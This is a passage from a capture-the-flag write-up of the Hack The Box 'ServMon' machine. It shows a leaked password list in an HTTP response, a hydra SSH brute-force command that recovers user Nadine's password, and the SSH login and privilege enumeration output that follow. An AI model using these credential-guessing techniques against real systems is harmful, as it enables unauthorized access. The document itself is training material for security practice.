 ```text
HTTP/1.1 200 OK
Content-type: text/plain
Content-Length: 156
Connection: close
AuthInfo: 

1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
```

## Road to User

Now that I had some credentials, it was time to try to log into the machine with them.  I decided to use the tool`hydra` to do a brute force attack against SSH for both users `Nathan` and `Nadine`.

```text
zweilos@kalimaa:~/htb/servmon$ hydra -l Nadine -P passwords 10.10.10.184 ssh

Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-06-20 21:06:59
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 7 tasks per 1 server, overall 7 tasks, 7 login tries (l:1/p:7), ~1 try per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-06-20 21:07:01
```

Thank you `Nadine` for using one of the same passwords you recommended!

```text
zweilos@kalimaa:~/htb/servmon$ ssh Nadine@10.10.10.184
Nadine@10.10.10.184's password: 
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami /all

USER INFORMATION                                            
----------------                                            

User Name      SID                                          
============== =============================================
servmon\nadine S-1-5-21-3877449121-2587550681-992675040-1002


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes

====================================== ================ ============ ==================================
================
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by defaul
t, Enabled group
```